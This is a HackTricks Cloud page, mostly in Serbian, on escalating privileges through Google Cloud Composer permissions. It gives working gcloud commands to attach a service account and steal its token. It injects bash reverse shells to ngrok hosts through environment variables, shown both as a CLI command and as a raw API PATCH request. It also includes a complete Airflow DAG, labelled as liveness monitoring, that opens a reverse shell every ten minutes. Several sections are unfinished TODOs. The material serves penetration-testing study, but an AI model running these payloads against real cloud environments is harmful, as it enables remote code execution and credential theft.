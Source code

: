 # GCP - Composer Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## composer

Više informacija u:

{% content-ref url="../gcp-services/gcp-composer-enum.md" %}
[gcp-composer-enum.md](../gcp-services/gcp-composer-enum.md)
{% endcontent-ref %}

### `composer.environments.create`

Moguće je **priključiti bilo koji servisni nalog** na novokreirano composer okruženje sa tom dozvolom. Kasnije možete izvršiti kod unutar composera da biste ukrali token servisnog naloga.
```bash
gcloud composer environments create privesc-test \
--project "${PROJECT_ID}" \
--location europe-west1 \
--service-account="${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com"
```
Više informacija o eksploataciji [**ovde**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/i-composer.environmets.create.sh).

### `composer.environments.update`

Moguće je ažurirati composer okruženje, na primer, modifikovanjem env varijabli:

{% code overflow="wrap" %}
```bash
# Even if it says you don't have enough permissions the update happens
gcloud composer environments update \
projects/<project-id>/locations/<location>/environments/<composer-env-name> \
--update-env-variables="PYTHONWARNINGS=all:0:antigravity.x:0:0,BROWSER=/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/19990 0>&1' & #%s" \
--location <location> \
--project <project-id>

# Call the API endpoint directly
PATCH /v1/projects/<project-id>/locations/<location>/environments/<composer-env-name>?alt=json&updateMask=config.software_config.env_variables HTTP/2
Host: composer.googleapis.com
User-Agent: google-cloud-sdk gcloud/480.0.0 command/gcloud.composer.environments.update invocation-id/826970373cd441a8801d6a977deba693 environment/None environment-version/None client-os/MACOSX client-os-ver/23.4.0 client-pltf-arch/arm interactive/True from-script/False python/3.12.3 term/xterm-256color (Macintosh; Intel Mac OS X 23.4.0)
Accept-Encoding: gzip, deflate, br
Accept: application/json
Content-Length: 178
Content-Type: application/json
X-Goog-Api-Client: cred-type/sa
Authorization: Bearer [token]
X-Allowed-Locations: 0x0

{"config": {"softwareConfig": {"envVariables": {"BROWSER": "/bin/bash -c 'bash -i >& /dev/tcp/2.tcp.eu.ngrok.io/1890 0>&1' & #%s", "PYTHONWARNINGS": "all:0:antigravity.x:0:0"}}}}
```
{% endcode %}

TODO: Dobiti RCE dodavanjem novih pypi paketa u okruženje

### Preuzmi Dags

Proverite izvorni kod dags-a koji se izvršavaju:

{% code overflow="wrap" %}
```bash
mkdir /tmp/dags
gcloud composer environments storage dags export --environment <environment> --location <loc> --destination /tmp/dags
```
{% endcode %}

### Uvoz Dags

Dodajte python DAG kod u datoteku i uvezite ga pokretanjem:

{% code overflow="wrap" %}
```bash
# TODO: Create dag to get a rev shell
gcloud composer environments storage dags import --environment test --location us-central1 --source /tmp/dags/reverse_shell.py
```
{% endcode %}

Obrnuti shell DAG:

{% code title="reverse_shell.py" %}
```python
import airflow
from airflow import DAG
from airflow.operators.bash_operator import BashOperator
from datetime import timedelta

default_args = {
'start_date': airflow.utils.dates.days_ago(0),
'retries': 1,
'retry_delay': timedelta(minutes=5)
}

dag = DAG(
'reverse_shell',
default_args=default_args,
description='liveness monitoring dag',
schedule_interval='*/10 * * * *',
max_active_runs=1,
catchup=False,
dagrun_timeout=timedelta(minutes=10),
)

# priority_weight has type int in Airflow DB, uses the maximum.
t1 = BashOperator(
task_id='bash_rev',
bash_command='bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/14382 0>&1',
dag=dag,
depends_on_past=False,
priority_weight=2**31 - 1,
do_xcom_push=False)
```
{% endcode %}

### Write Access to the Composer bucket

Sve komponente okruženja kompozitora (DAG-ovi, dodaci i podaci) se čuvaju unutar GCP kante. Ako napadač ima dozvole za čitanje i pisanje, može pratiti kantu i **kada god se DAG kreira ili ažurira, podneti verziju sa zadnjim ulazom** tako da okruženje kompozitora preuzme verziju sa zadnjim ulazom iz skladišta.

Get more info about this attack in:

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

### Import Plugins

TODO: Proveriti šta je moguće kompromitovati učitavanjem dodataka

### Import Data

TODO: Proveriti šta je moguće kompromitovati učitavanjem podataka

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
